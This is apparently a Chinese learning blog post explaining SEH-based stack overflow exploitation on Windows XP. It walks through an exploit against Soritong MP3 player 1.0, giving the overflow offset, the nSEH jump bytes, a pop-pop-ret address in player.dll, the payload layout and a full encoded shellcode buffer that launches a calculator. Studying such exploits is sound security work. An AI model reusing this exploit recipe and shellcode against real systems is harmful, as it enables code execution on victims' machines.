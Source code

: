 ```yaml
---
title: 利用SEH的栈溢出
date: 2019-04-24
tags:
  - 栈溢出
  - 安全
  - 基础
---
```

# 简介
> 在看了《Exploit编写系列教程》的第三章和几篇SEH的博客后稍微记录一下。最后虽然整个分析的流程和教程的一模一样，但是用msf生成的payload并没有成功弹出计算器。我还是个新手小白所以虽然看了很久的教程但还是有一些不是很清楚。下面从下面三个部分记录一下
- 1.SEH的概念和一些数据结构
- 2.利用SEH进行栈溢出的原理
- 3.《Exploit编写系列教程》中的案例分析
<!--more-->
# 环境

- 运行环境：Windows XP Professional EN (SP0)
- 调试软件：ollydbg 2.0
- python：2.7
- 有漏洞软件：Soritong MP3 player 1.0
- 所有代码，软件都在下面的百度云链接中

# SEH概述
> SEH即异常处理结构体（Structure Exception Handler），是Windows异常处理机制的重要数据结构。下面只简单介绍几个必要的概念：

- 结构化异常处理是基于线程的。当线程初始化时会自动向栈中安装一个SEH作为线程默认的异常处理
- 在程序源码中使用__try{}__except{}或者Assert等异常处理机制，编译器将最终通过当前函数栈中安装一个SEH来实现异常处理
- 每个SEH包含一个_EXCEPTION_REGISTRATION结构体。结构体包含两个DWORD指针:SEH链表指针（Next SEH Recorder）和异常处理函数句柄（Exception Handler）
- 栈中一般会有多个SEH
- 栈中多个SEH通过链表的指针（Next SEH Recorder）在栈内由栈顶向栈底串成单向链表
- TEB的0字节处（FS:[0]）指向最顶上的SEH。所以当异常发生时，系统首先从TEB的0字节处取得第一个SEH结构进行异常处理。当异常处理函数无法处理该异常时，会顺着SEH链寻找下一个异常处理函数来处理。如果都无法处理，最后一个SEH链表指针会指向0xFFFFFFFF表示是最后一个SEH，一般这时就会弹出一个我们常见的报错，然后程序退出。下图就是SEH调用链

![SEH调用链](利用SEH的栈溢出/SEH链.png)

# 利用SEH进行栈溢出的原理

- 1. SEH放在栈内，可能会被溢出的数据把Next SEH Recorder和Exception Handler覆盖
- 2. 将Exception Handler覆盖为ShellCode的入口地址
- 3. 溢出数据触发异常，使系统调用SEH链进行异常处理

> 下面实验中，将Next SEH Recorder覆盖为"\xeb\x06\x90\x90"（jmp 0x06 nop nop的机器码，向后跳转到ShellCode的入口地址），将Exception Handler覆盖为pop pop ret的地址，再将Exception Handler后面的内容覆盖为ShellCode内容。为什么要找pop pop ret来使用呢？下面是调用Exception Handler时的栈帧，下一个EXCEPTION_REGISTRATION结构在ESP+08的地方，执行了pop pop ret后正好把EXCEPTION_REGISTRATION的地址（就是前面的Next SEH Recorder的地址）送入到EIP中，程序跳转到执行jmp 0x06正好跳转到shellcode代码地址处执行。

```
EBP-00 _ebp
EBP-04 trylevel
EBP-08 scopetable数组指针
EBP-0C handler函数地址
EBP-10指向下一个EXCEPTION_REGISTRATION结构
EBP-14 GetExceptionInformation
EBP-18 栈帧中的标准ESP
```

# 实例分析

## 找到溢出点 
>已经知道5000个A的UI.txt会触发Soritong MP3 player 1.0的SEH，表现就是程序闪退并没有出现默认的报错（当然这也不能判断一定覆盖到了SEH）。先用patter.py生成5000个字符，然后用ollydbg来调试该软件找到是哪几个覆盖了NSEH和Handler。如下图所示。NSEH被4At5成功覆盖，Handler被At6A覆盖。通过pattern.py可以知道4At5在584。现在也就已经得到exp的组成结构了:**['A'\*584]["\xeb\x06\x90\x90"][pop pop ret的地址][ShellCode]['A'\*1000触发溢出]**

![覆盖点](利用SEH的栈溢出/findESH.png)
```
(py2) C:\workplace\tools>python pattern.py 4At5
Pattern 4At5 first occurrence at position 584 in pattern.
```

## 找到pop pop ret
> 为了exp的稳定性一般选用软件自带的DLL来作为跳板，这次使用软件自带的player.dll。在ollydbg的player.dll的汇编代码区右键->search for->sequence of commands输入pop ESI pop EDI ret。找到地址为0x1009e812 (中间不能出现0x00)

## 生成shellcode
>现在就剩最后一步了就是生成shellcode。但是这步我用msf没有生成的shellcode并没有成功弹出计算器，但是用他的shellcode却成功弹了计算器。下面是shellcode代码

```python
buf = ""
# success
buf +="\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
buf +="\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
buf +="\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
buf +="\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
buf +="\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
buf +="\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
buf +="\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
buf +="\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
buf +="\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
buf +="\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
buf +="\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
buf +="\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
buf +="\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
buf +="\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
buf +="\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
buf +="\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
buf +="\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
buf +="\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
buf +="\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
buf +="\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
buf +="\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
buf +="\x4e\x36\x43\x46\x42\x50\x5a"
```

# 总结

> 总结就用那个公式就能解释在以前的windows系统上利用SEH的原理:**[填充触发SEH]["\xeb\x06\x90\x90"][pop pop ret的地址][ShellCode][填充触发SEH]**

- [SEH相关文章链接](https://blog.csdn.net/chenlycly/article/details/52575260)
- [配套资料百度云链接](https://pan.baidu.com/s/1cFOWWJj1IaMHh67FBdbQgA)     提取码：bxa1
